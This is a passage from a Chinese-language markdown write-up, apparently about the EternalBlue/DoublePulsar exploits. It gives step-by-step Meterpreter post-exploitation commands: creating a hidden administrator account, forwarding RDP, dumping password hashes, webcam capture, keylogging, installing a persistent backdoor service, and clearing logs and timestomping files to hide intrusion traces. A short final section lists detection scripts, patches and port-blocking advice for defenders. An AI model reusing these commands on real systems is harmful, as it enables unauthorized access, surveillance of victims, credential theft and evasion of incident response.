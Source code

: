 2. 添加账户进管理组<br>
	`net user sherlly sherlly /add`
	`net localgroup Administrators sherlly /add`


3. 端口转发
	如果3389端口只限内网访问，可以使用portfwd将端口转发到本地连接<br>
	`portfwd add -l 4444 -p 3389 -r XXX.XXX.XXX.XXX`
	`rdesktop -u root -p toor 127.0.0.1:4444`

4. meterpreter自带的多功能shell

	 - hashdump:获取用户密码哈希值，可以用ophcrack等彩虹表工具进行破解明文
	 - screenshot:获取屏幕截图
	 - webcam_snap:调取对方摄像头拍照
	 - keyscan_start,keyscan_dump:记录键盘动作
	 - ps:查看当前运行进程
	 - sysinfo:查看系统信息
	 - getsystem:提权

5. 维持控制<br>

	 - migrate:将meterpreter会话移至另一个进程内存空间（migrate pid）配合ps使用
	 - irb:与ruby终端交互，调用meterpreter封装函数，可以添加Railgun组件直接交互本地的Windows API,阻止目标主机进入睡眠状态
	`irb
	client.core.use("railgun)
	client.railgun.kernel32.SetThreadExecutionState("ES_CONTINUOUS|ES_SYSTEM_REQUIRED")`
	 - background:隐藏在后台方便msf终端进行其他操作，session查看对话id
	 - session -i X:使用已经成功获取的对话

6. 植入后门

	 - 测试是否虚拟机：
	 `run post/windows/gather/checkvm `
	 - 以系统服务形式安装：在目标主机的31337端口开启监听，使用metsvc.exe安装metsvc-server.exe服务，运行时加载metsrv.dll
	 `run metsvc`
	 - getgui开启远程桌面：
	`run getgui -u sherlly -p sherlly`
	`run multi_console_command -rc /root/.msf3/logs/scripts/getgui/clean_up_XXX.rc  
	 //清除痕迹，关闭服务，删除添加账号`

6. 清除入侵痕迹

 - clearev:清除日志
 - timestomp:修改文件的创建时间，最后写入和最后访问时间
 `timestomp xiugai.doc -f old.doc`


### **检测&防御**
1. 国外有人写了个检测Doublepulsar入侵的脚本，运行环境需要python2.6, 地址[https://github.com/countercept/doublepulsar-detection-script][3], 使用方法
`python detect_doublepulsar_smb.py --ip XXX.XXX.XXX.XXX` 
`python detect_doublepulsar_rdp.py --file ips.list --verbose --threads 1`
另外，nmap也基于该脚本出了对应扫描脚本[smb-double-pulsar-backdoor.nse][4]，使用方法`nmap -p 445 <target> --script=smb-double-pulsar-backdoor`
2. 安装相应补丁https://blogs.technet.microsoft.com/msrc/2017/04/14/protecting-customers-and-evaluating-risk/
3. 如非必要，关闭25, 88, 139, 445, 3389端口
4. 使用防火墙、或者安全组配置安全策略，屏蔽对包括445、3389在内的系统端口访问。(见参考资料7)<br>
### **参考资料**
1. http://thehackernews.com/2017/04/swift-banking-hacking-tool.html
2. http://www.freebuf.com/sectool/132029.html
3. https://www.cyberscoop.com/nsa-hacking-tools-shadow-brokers-dark-web-microsoft-smb/
4. http://www.file.net/process/srv.sys.html
5. http://blogs.360.cn/360safe/2017/04/17/nsa-eternalblue-smb/
6. https://nmap.org/nsedoc/scripts/smb-double-pulsar-backdoor.html
7. https://jingyan.baidu.com/article/c843ea0b7d5c7177931e4ab1.html


  [1]: https://www.python.org/download/releases/2.6.6/
  [2]: https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/pywin32-221.win32-py2.6.exe/download
  [3]: https://github.com/countercept/doublepulsar-detection-script
  [4]: https://svn.nmap.org/nmap/scripts/smb-double-pulsar-backdoor.nse